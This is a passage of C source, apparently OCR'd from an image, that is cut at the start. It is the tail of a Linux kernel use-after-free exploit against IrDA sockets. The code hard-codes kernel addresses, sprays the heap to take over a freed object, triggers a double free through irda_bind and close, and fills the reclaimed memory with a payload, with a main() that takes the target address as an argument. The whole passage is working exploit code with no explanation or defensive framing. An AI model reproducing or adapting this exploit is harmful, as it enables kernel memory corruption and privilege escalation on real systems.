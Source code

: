 ```c
	//getchar();
	sleep(1);
	unsigned char *buf = malloc(4096);
	pid_t pid;
	u_int64_t addr = 0xffffffff81f01500;
	addr = 0xffffffff81efeb60;
	//addr = 0xdeadbeef;
	addr = target_addr;
	void *x = &addr;
	memset(buf,0xcc,88);
	*(void **)(buf+8) = (void*)addr;
	printf("[+] Spray memory and take control of the old freed object\n");
	spray_heap(buf,88,200);
	usleep(10000);
	printf("[+] Allocating new object to overwrite the targetted pointer\n");
	irda_bind(fd4,4,0x30,0x3,"c");
	printf("[+] Freeing object again \n");
	close(fd4);
	sleep(1);
	printf("[+] Fill the last object with payload \n");
	memset(buf,0xcc,88);
	spray_heap(buf,88,200);
	usleep(1000);
}
int main(int argc,char **argv)
{
	unsigned long target_addr;
	pid_t pid;
	if(argc != 2) {
		printf("%s <target object>\n",*argv);
		return -1;
	}
	sscanf(argv[1],"%lx",&target_addr);
	uaf(target_addr);
	trigger();
}
```
